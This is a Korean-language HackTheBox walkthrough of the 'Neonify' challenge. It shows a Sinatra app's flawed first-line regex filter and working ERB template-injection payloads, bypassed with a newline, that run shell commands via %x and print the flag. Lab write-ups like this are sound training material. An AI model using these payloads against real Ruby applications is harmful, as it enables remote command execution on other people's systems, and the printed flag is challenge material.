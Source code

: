 
# HackTheBox Walkthrough - Room: Neonify

**Target IP**: 94.237.57.211:56108  
**Difficulty**: Medium  
**Objective**: Bypass input filtering to perform Ruby ERB template injection and capture the flag.  
![webpage](img/webpage.png)

---

## 🧭 Initial Analysis

### 🌐 웹 페이지 정보

- 입력 폼만 존재, 값을 입력하면 그대로 다시 출력됨
- 특수문자 입력 시 `"Malicious Input Detected"` 메시지 표시됨

---

## 🔍 소스 코드 분석  
![neonrb](img/neonrb.png)

```ruby
post '/' do
  if params[:neon] =~ /^[0-9a-z ]+$/i
    @neon = ERB.new(params[:neon]).result(binding)
  else
    @neon = "Malicious Input Detected"
  end
  erb :'index'
end
```

- `ERB.new(...).result(binding)` → **템플릿 인젝션 (RCE 가능)**
- 하지만 정규식 필터링 `/^[0-9a-z ]+$/i` 로 특수문자는 제한됨

---

## 💡 필터 우회 기법

- 정규식 `/^[0-9a-z ]+$/i` 는 첫 줄만 필터링
- `\n` (개행) 이후는 검사하지 않음 → 우회 가능

### ✅ 입력 예시

```
neon=temp
<%= 7 * 7 %>
```
![regexbypass1](img/regexbypass1.png)

---

### ✅ 필터 우회 페이로드

```text
neon=temp
<%=%x'cat flag.txt'%>
```

→ 개행(`\n`)을 통해 첫 줄은 필터 통과  
→ `ERB`는 아래 줄의 코드를 실행하게 됨

---

## 📤 HTTP 요청 예시

```http
POST / HTTP/1.1
Host: 94.237.57.211:56108
Content-Type: application/x-www-form-urlencoded

neon=temp
<%='cat flag.txt'%>
```
![fail](img/fail1.png)

---

### ⚠️ 실패 이유

단순 `cat` 명령은 문자열로 처리되어 출력되며, 실행되지 않음  
→ `%x` 구문을 이용한 shell 실행 필요

---

### ✅ 최종 페이로드

```
neon=temp
<%=%x'cat flag.txt'%>
```

![fail](img/fail2.png)

---

## ✅ 플래그 출력 결과

HTML 응답에서 다음과 같이 출력됨:

```html
<h1 class="glow">temp
HTB{r3pl4c3m3n7_s3cur1ty}</h1>
```

🎉 **플래그 획득 성공!**

---

## 🧠 기술 요약

| 기술                     | 설명                                                      |
|--------------------------|-----------------------------------------------------------|
| ERB Template Injection   | Ruby의 템플릿 처리 함수에 사용자 입력이 직접 전달됨           |
| 정규식 우회              | `/^[a-z0-9 ]+$/i` 필터를 개행 문자로 우회 가능                |
| Ruby Shell Execution     | `<%= %x'command' %>` 구문을 통해 시스템 명령 실행             |

---

## 🎯 최종 결과

- **플래그**: `HTB{r3pl4c3m3n7_s3cur1ty}`
- **획득 방법**: ERB Template Injection + Regex Bypass + Ruby Shell Execution

---

## 📚 참고 자료

- https://exploit-notes.hdks.org/exploit/web/framework/ruby/ruby-on-rails-pentesting/  
- https://davidhamann.de/2022/05/14/bypassing-regular-expression-checks/  
- https://www.writesoftwarewell.com/call-shell-commands-in-ruby/
